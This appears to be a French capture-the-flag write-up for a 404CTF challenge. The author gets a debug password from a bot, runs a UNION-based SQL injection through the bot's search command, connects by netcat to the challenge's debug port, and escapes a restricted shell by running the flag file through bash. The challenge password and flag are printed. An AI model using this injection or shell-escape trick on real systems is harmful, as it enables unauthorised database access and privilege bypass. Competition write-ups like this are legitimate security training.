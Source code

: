 ```
Commandes disponibles :
!chercher argument -> rechercher argument dans la base de données
!authentification motdepasse -> authentifiez vous pour accéder au mode privilégié
!drapeau -> obtenez un mystérieux drapeau
!debug -> debug command
```

On a à présent accès à une nouvelle commande : !debug, qui donne

`Debug déployé sur le port 31337 ! Mot de passe : p45_uN_4uT0m4t3`

On a donc besoin d'y accéder d'une quelconque manière.

Infos utiles :
Version : `10.6.7-MariaDB`
User : `data@10.2.2.24`
Hostname : `not-a-bot-mariadb-0`
Datadir : `/bitnami/mariadb/data/`
Port : `31337`
Password : `p45_uN_4uT0m4t3`
Database : `data`

Tout est bon et beau... sauf qu'on n'a pas d'IP publique à viser.

Chercher les plugins n'apporte pas grand chose d'utile
`!chercher ." UNION SELECT plugin_name from information_schema.plugins #`

On va essayer d'accéder au service de debug comme d'hab avec l'host challenge.404ctf.fr

SSH et mysql refusent la connexion mais on y arrive avec netcat

`nc challenge.404ctf.fr 31337` + mot de passe

On arrive dans un vieux bash tout pété, il va falloir être délicat pour trouver un flag dans cette ruine

```
bash-4.4$ echo /app/*
/app/auth_wall.sh /app/flag.txt

bash-4.4$ /app/flag.txt
bash: /app/flag.txt: Permission denied
```

On a notre fichier, mais on ne peut pas l'afficher. Tristesse.
On est dans une jail, il nous faut trouver un bon client pour afficher le flag.

On a du bol, on a un bash sous la main
`/bin/bash ./flag.txt`

`./flag.txt: line 1: 404CTF{17_s_4g155417_3n_f4iT_d_1_b0t}: command not found`

Merci m'sieur !

